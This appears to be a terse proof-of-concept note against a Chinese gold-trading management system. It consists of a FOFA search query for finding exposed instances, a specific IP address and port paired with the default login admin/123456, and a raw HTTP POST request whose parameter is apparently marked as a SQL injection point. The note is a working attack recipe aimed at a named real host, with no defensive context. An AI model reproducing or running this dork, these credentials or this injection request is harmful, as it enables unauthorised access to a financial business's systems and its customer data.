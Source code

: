fofa:
```plane
title="黄金通二级系统三代管理端"
```

https://113.105.126.146:8900/  admin/123456

```
POST /storagework/custTakeInfoPage.htm HTTP/1.1
Host: 113.105.126.146:8900
Cookie: JSESSIONID_null_8900=120szhvp9dh7nufxi51v08bs6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: https://113.105.126.146:8900
Referer: https://113.105.126.146:8900/reportframework/custStorageTakeInfoSel.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: close

page=1&prodidsel=Au99.99&takeStateId=00&custTradeName=代理深圳萃华*

```
![ef8dc378-c175-4af2-8495-873191cb294e.png](images/ef8dc378-c175-4af2-8495-873191cb294e.png)
